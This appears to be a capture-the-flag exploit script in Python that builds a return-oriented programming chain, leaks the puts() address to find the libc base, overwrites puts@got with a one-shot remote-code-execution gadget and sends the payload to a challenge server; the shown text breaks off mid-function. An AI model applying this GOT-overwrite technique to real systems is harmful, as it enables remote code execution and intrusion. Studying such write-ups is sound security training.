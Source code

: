 ```python

# first, we set up some registers, which will later be put in the correct registers
# puts() uses rdi as argument
payload += q(0x000002bc+base)
payload += q(0x600c50)  # value for r12 -> puts@got
payload += q(0)         # value for r13 -> goes into rdx 
payload += q(0)         # value for r14 -> goes into rsi
payload += q(0x600c50)  # value for r15 -> goes into rdi -> leak addr of puts()

# swap around the registers and call puts()
payload += q(0x00000296+base)
payload += q(0) * 7
# without this, we don't get output
payload += q(0x400570)  # fflush@plt

# now read() to overwrite printf()
# read() is blocking and will wait for our input :)
# again, first set up rbp
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

# set up registers/arguments for read()
payload += q(0x000002bc+base)
payload += q(0x600c60)  # value for r12 -> read@got
payload += q(8)         # value for r13 -> goes into rdx -> count
payload += q(0x600c50)  # value for r14 -> goes into rsi -> overwrite puts@got
payload += q(0)         # value for r15 -> goes into rdi -> 0 -> stdin

payload += q(0x00000296+base)
payload += q(0) * 7

# restart main(), so the binary will execute puts() -> one shot rce, lands a shell
# could've just a easily return to puts@plt...
payload += q(0x4006ec) 

def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10103))

    readtil('name?')
    s.send('a\n')
    readtil('message:')
    s.send('-1\n')   # ty Swappage!
    readtil('text:')
    s.send(payload+'\n')
    
    readtil('Thanks!\n')
    data = s.recv(8)
    data = data[:-1] + "\x00\x00"
    puts_addr = struct.unpack('<Q', data)[0]
    print "[+] Leaked puts(): " + hex(struct.unpack('<Q', data)[0])
    
    libc_base = puts_addr - 0x70a30
    print "[+] libc base addr: " + hex(libc_base)
    system_addr = libc_base + 0x442AA # one shot rce, ty superkojiman!
    print "[+] sending one shot rce addr (" + hex(system_addr) + ")"
    
    # the rop chain will wait at read(), because that is blocking
    # send the address to overwrite puts@got
    s.send(q(system_addr))
    
    import telnetlib
```